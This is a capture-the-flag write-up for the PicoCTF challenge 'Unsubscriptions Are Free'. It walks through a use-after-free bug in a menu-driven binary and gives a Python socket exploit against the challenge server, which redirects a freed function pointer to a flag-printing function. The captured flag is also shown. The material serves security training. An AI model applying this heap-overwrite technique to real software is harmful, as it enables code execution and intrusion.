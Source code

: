 # CTF Writeup: PicoCTF - Unsubscriptions Are Free

## Challenge Description

Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. source nc mercury.picoctf.net 58574

## Solution

### Introduction

The challenge provides us with a binary named vuln. After running the program, we are prompted with a CLI menu. The goal is to call a specific function to obtain the flag.

```
$ ./vuln
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit

```

### Functions

#### (S)ubscribe to my channel

Next, we observe that when we perform the `(S)ubscribe to my channel` option, the `hahaexploitgobrrr` function is revealed. However, we must find a way to call it.

```
S
OOP! Memory leak...0x80487d6
Thanks for subsribing! I really recommend becoming a premium member!
...
```

#### hahaexploitgobrrr

The flag will be revealed by the hahaexploitgobrrr function.
```
$ gdb vuln
(gdb) set disassembly-flavor intel
(gdb) disassemble 0x80487d6
Dump of assembler code for function hahaexploitgobrrr:
   ...
   0x080487ff <+41>:	push   eax
   0x08048800 <+42>:	lea    eax,[ebx-0x21be]		# "flag.txt"
   0x08048806 <+48>:	push   eax
   0x08048807 <+49>:	call   0x8048670 <fopen@plt>
   0x0804880c <+54>:	add    esp,0x10
   0x0804880f <+57>:	mov    DWORD PTR [ebp-0xd8],eax
   0x08048815 <+63>:	sub    esp,0x4
   0x08048818 <+66>:	push   DWORD PTR [ebp-0xd8]
   0x0804881e <+72>:	push   0xc8
   0x08048823 <+77>:	lea    eax,[ebp-0xd4]
   0x08048829 <+83>:	push   eax
   ...
End of assembler dump

```

#### (I)nquire about account deletion

This function will free the user object contains the addresses of functions to be called.

#### (M)ake an Twixer account

This function will allocate memory for the user object.

#### (l)eave a message(with or without logging in)

This function can add a message to the heap, and if the user object was previously freed, it can cause a use-after-free vulnerability by overwriting the user object and redirecting code execution.

### Exploit

Now that we successfully were able to redirect code execution, let's create an exploit script to get the flag.

To exploit the program:

1. Subscribe to the channel to obtain the hahaexploitgobrrr function address.
2. Register to create a user object.
3. Request account deletion to free the user object.
4. Leave a message to overwrite the user object in the heap with hahaexploitgobrrr. (This causes use-after-free)
5. Retrieve the flag.

```python
import socket
import struct

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("mercury.picoctf.net", 58574))

s.recv(1024).decode()
s.recv(1024).decode()

s.send(b'M')

s.recv(1024).decode()
s.recv(1024).decode()

s.send(b'asdf\n')

s.recv(1024).decode()
s.recv(1024).decode()

s.send(b'S')

s.recv(19).decode()

addr = s.recv(19)[2:-1]

hahaexploitgobrrr = struct.pack("I", int(addr, 16))

s.recv(1024).decode()

s.send(b'I')

s.recv(1024).decode()

s.send(b'Y')

s.recv(1024).decode()
s.recv(1024).decode()

s.send(b'L')

s.recv(1024).decode()
s.recv(1024).decode()

s.send(hahaexploitgobrrr)

print(s.recv(1024).decode())
s.recv(1024).decode()

```

```
john@john:~/CTF/picoctf/unsubscriptions_are_free$ python3 exploit.py 
picoCTF{d0ubl3_j30p4rdy_ec42c6fc}
```
